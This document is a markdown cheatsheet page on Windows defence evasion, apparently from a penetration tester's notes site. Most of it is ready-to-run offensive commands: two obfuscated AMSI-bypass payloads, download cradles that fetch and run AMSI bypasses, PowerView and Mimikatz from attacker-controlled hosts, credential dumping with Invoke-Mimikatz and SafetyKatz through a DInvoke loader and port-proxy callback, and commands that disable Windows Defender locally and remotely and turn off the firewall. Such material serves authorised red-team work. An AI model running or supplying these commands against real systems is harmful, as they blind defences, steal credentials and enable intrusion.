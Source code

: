 ```yaml
---
layout: post
title: evasion / win
category: 03-evasion
parent: cheatsheets
modified_date: 2024-12-08
permalink: evasion/win
---
```


**Mitre Att&ck Entreprise**: [TA0005 - Defense Evasion](https://attack.mitre.org/tactics/TA0005/)

**Menu**
<!-- vscode-markdown-toc -->
* [amsi](#amsi)
* [applocker](#applocker)
* [download](#download)
* [dinvoke](#dinvoke)
* [edr](#edr)
* [powershell](#powershell)
* [windows-defender](#windows-defender)
* [windows-firewall](#windows-firewall)
* [S3cur3Th1sSh1t](#S3cur3Th1sSh1t)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

**Tools**

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/TheWover/DInvoke","https://api.github.com/repos/anonymous300502/Nuke-AMSI","https://api.github.com/repos/OmerYa/Invisi-Shell","https://api.github.com/repos/PwnDexter/Invoke-EDRChecker"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>_repo</th><th>_last_push</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='amsi'></a>amsi 
```powershell
# amsi evasion # local # 01
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# amsi evasion # local # 02
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') +
('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ;
(
Get-
varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"((
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"(
( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f
'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}"
-f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

# amsi evasion # rshell # 01
iex ($zc2srv_ip="")
iex (iwr http://${zc2srv_ip}/amsibypass.txt -UseBasicParsing)
iex ((New-Object Net.WebClient).DownloadString('http://'${zc2srv_ip}'/PowerView.ps1'))
```

- [amsi.fails](https://amsi.fails)
- [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [notes.offsec-journey.com](https://notes.offsec-journey.com/evasion/amsi-bypass)

## <a name='applocker'></a>applocker
```powershell
# enumeration via powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# enumeration via registry							
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
dir HKLM:\Software\Policies\Microsoft\Windows\SRPV2
```

## <a name='download'></a>download
```sh
# lolbas mpcmdrun.exe 
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path>

# download fuzzed mimikatz
(New-Object Net.WebClient).DownloadString('http://10.1.3.40/mimi/mimikatz.ps1'); Invoke-Dummy  -DumpEvenMoreDummy)

# 
$r=New-Object System.Net.WebClient;$r.DownloadFile('http://10.1.3.40/mimi/mimi.zip', 'c:\temp\mimi.zip')

# run mimikartz into memory
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```

## <a name='dinvoke'></a>dinvoke
<iframe width="727" height="409" src="https://www.youtube.com/embed/FuxpMXTgV9s" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

```powershell
# download dinvoke on a host 
iwr http://$zlat_computer_ip/Loader.exe -OutFile C:\Users\Public\Loader.exe

# upload dinvoke on a remote host 
echo F | xcopy C:\Users\Public\Loader.exe \\$ztarg_computer_ip\C$\Users\Public\Loader.exe

# execute safekatz via dinvoke 
C:\Users\Public\Loader.exe -path http://$zlat_computer_ip/SafetyKatz.exe -Args %Pwn% exit

# execute safekatz via dinvoke, http callback proxied on localhost  
$null |winrs -r:$ztarg_computer_name "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=$zlat_computer_ip"
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -Args %Pwn% exit
```

## <a name='edr'></a>edr
```powershell
Invoke-EDRChecker

# crowdstrike falcon
Get-Service | Where-Object{$_.DisplayName -like "*falcon*"}

# palo cortex xdr 
cd "C:\Program Files\Palo Alto Networks\Traps"
./cytool.exe
dir HKLM:\SYSTEM\CurrentControlSet\Services\CryptSvc
```

## <a name='powershell'></a>powershell
```powershell
# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage

# https://github.com/OmerYa/Invisi-Shell
# bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies
RunWithRegistryNonAdmin.bat
```

## <a name='windows-defender'></a>windows-defender
```powershell
# disable windows defender
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true

# disable windows defender remotely via pssession
$sess = New-PSSession -ComputerName $ztarg_computer_fqdn
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-command -ScriptBlock{Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess

# set local proxy redirection 
$null | winrs -r:$ztarg_computer_name "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=$zlat_computer_ip"
```

## <a name='windows-firewall'></a>windows-firewall
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles
```

## <a name='S3cur3Th1sSh1t'></a>S3cur3Th1sSh1t
<iframe width="727" height="409" src="https://www.youtube.com/embed/_sPM9Er_194" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
